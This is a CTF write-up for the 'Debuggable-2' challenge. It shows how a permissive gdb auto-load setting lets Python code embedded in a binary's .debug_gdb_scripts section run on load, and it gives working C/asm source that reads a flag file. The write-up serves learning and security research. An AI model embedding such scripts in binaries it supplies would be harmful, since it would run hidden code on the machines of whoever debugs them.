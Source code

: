 ```yaml
---
title: Debuggable-2

published: 2025-06-14

description: GDB Exploit

tags: [pwn, gdb, python, c]

category: SmileyCTF 2025
---
```


# Debuggable-2
> GDB is safe if you never run the binary right?

## Files

```
Dockerfile
run.py
script
```

This time we have an extra file `script` that has one line: `set auto-load safe-path /`

This script is put in our .gdbinit for our docker container

The `run.py` has also changed to run:
```
q
```

## Approach

`set auto-load safe-path /` basically lets gdb run any script that is embedded in our binary

So all we have to do is embed malicious python code in our binary that outputs the contents of `/app/flag.txt`

Looking at the [GDB Docs](https://sourceware.org/gdb/current/onlinedocs/gdb.html/dotdebug_005fgdb_005fscripts-section.html) we can see some examples for embedding python code

There are 2 ways to do this:
- embedding a refrence to a python script
- embedding a python script itself

We will use the second since we can't use any python scripts on the server

## Solution

We make a basic c file using the docs sample:
```c
asm(
".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
".byte 4\n"                          // SECTION_SCRIPT_ID_PYTHON_TEXT = 4
".ascii \"gdb.printflag\\n\"\n"
".ascii \"import gdb\\n\"\n"
".ascii \"f = open('/app/flag.txt', 'r')\\n\"\n"
".ascii \"content = f.read()\\n\"\n"
".ascii \"f.close()\\n\"\n"
".ascii \"gdb.write(content)\\n\"\n"
".byte 0\n"
".popsection\n"
);

int main(){}
```

which embeds the python code:
```python
import gdb
f = open('/app/flag.txt', 'r')
content = f.read()
f.close()
gdb.write(content)
```

Compile this, and we have successfully created a binary that will immediately dump the contents of `/app/flag.txt` upon loading the binary

Convert this to base64 send to the instance and we get our flag `.;,;.{random_embedded_scripting_languages_what_could_possibly_go_wrong}`
